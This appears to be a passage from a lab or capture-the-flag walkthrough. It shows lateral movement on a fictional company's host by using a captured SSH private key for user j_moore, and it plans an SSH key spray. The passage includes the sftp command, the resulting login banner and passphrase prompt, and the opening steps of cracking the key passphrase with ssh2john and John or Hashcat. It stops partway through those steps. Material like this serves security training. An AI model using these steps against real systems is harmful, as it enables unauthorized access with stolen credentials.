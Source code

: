 
### What We Can Do

1. Test j_moore's private key against the SFTP service.  
2. Conduct an SSH Key Spray attack to identify additional access points.  

---

### J_moore, Lateral Move to SFTP

**Steps**:

#### Identify if the id_rsa is encrypted

Log into the SFTP service using j_moore's id_rsa:

**Command**:  
```bash
sftp -i id_rsa j_moore@$ip  
```

**Expected Output**:  
<PRE>
The authenticity of host '10.10.64.168 (10.10.64.168)' can't be established.  
ED25519 key fingerprint is SHA256:RPye4zEVR50BH+C2h4qT0zFRbYVknKzA3S/aP0fddoc.  
This key is not known by any other names  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '10.10.64.168' (ED25519) to the list of known hosts.  

**************************************************************************  
*                           Nexora Solutions                             *  
*                    Secure Shell (SSH) Access Portal                    *  
**************************************************************************  

NOTICE: This system is for authorized use only. Unauthorized access or use  
is prohibited and may result in disciplinary action and/or civil and  
criminal penalties. All activities on this system are monitored and  
recorded.  

For assistance, contact:  
  support@nexora-solutions.com  
  j_davis@nexora-solutions.com  

Enter passphrase for key 'id_rsa':  
</PRE>

---

Before logging into the SFTP service, the passphrase for the id_rsa key must be cracked.

---

<details><summary>Alternate Method (Identify if the id_rsa is encrypted)</summary></details>

#### Cracking SSH Passphrases

**Step 1:** Transfer j_moore's id_rsa to the attack computer.  
**Step 2:** Utilize ssh2john to output a hash format for John/Hashcat to crack against.
